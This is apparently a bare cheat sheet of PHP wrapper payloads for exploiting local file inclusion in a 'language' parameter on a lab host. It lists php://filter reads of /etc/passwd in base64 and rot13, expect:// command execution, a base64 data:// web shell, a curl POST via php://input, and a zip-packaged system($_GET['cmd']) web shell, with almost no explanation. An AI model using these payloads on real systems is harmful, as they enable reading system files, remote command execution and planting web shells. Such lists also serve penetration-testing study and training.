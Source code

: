 ## Base64

```python
php://filter/read=convert.base64-encode/resource=

http://10.10.10.21/index.php?language=php://filter/read=convert.base64-encode/resource=/etc/passwd
```

## Rot13

```python
php://filter/read=string.rot13/resource=

http://10.10.10.21/index.php?language=php://filter/read=string.rot13/resource=/etc/passwd
```

## Expect Wrapper

```python
expect://id

http://10.10.10.21/index.php?language=expect://id
```

## Data Wrapper

```python
echo '<?php system($_GET['cmd']); ?>' | base64
PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=

data://text/plain;base64,

http://10.10.10.21/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=id
```

## Input Wrapper

```python
php://input

curl -s -X POST --data "<?php system('id'); ?>" "http://10.10.10.21/index.php?language=php://input"
```

## Zip Wrapper

```python
echo '<?php system($_GET['cmd']); ?>' > webshell.php
zip webshell.zip webshell.php

http://10.10.10.21/index.php?language=zip://webshell.zip%23webshell.php&cmd=id
```
